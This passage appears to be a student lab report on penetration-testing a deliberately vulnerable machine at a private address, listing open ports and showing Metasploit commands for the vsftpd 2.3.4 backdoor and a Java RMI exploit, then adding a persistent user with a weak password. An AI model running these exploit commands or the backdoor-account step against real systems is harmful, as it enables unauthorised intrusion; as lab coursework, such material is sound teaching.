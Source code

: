 | Port   | State | Service | Version              |
| ------ | ----- | ------- | -------------------- |
| 21/tcp | open  | ftp     | vsftpd 2.3.4         |
| 22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian |

#### 🔐 Hidden Ports and Services

| Port      | State | Service  | Version      |
| --------- | ----- | -------- | ------------ |
| 8787/tcp  | open  | drb      | Ruby DRb RMI |
| 47436/tcp | open  | mountd   | RPC          |
| 50918/tcp | open  | java-rmi | grmiregistry |
| 59995/tcp | open  | nlockmgr | RPC          |
| 60004/tcp | open  | status   | RPC          |

---

### 💣 Task 4: Exploitation of Services

We exploited the following services:

#### 1. vsftpd 2.3.4

* Used Metasploit module:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
run
```

#### 2. Java RMI

* Used: `exploit/multi/misc/java_rmi_server`
* Exploited remote method invocation vulnerability

#### 3. Shell access (post exploit)

* Used payloads to gain shell access via exploited ports.

🖼 Screenshot: Add screenshots of Metasploit terminal or sessions.

---

### 👤 Task 5: Create User with Root Permission

#### ✅ Commands:

```bash
adduser cyberhero
passwd cyberhero  # (Password: 987654321)
```
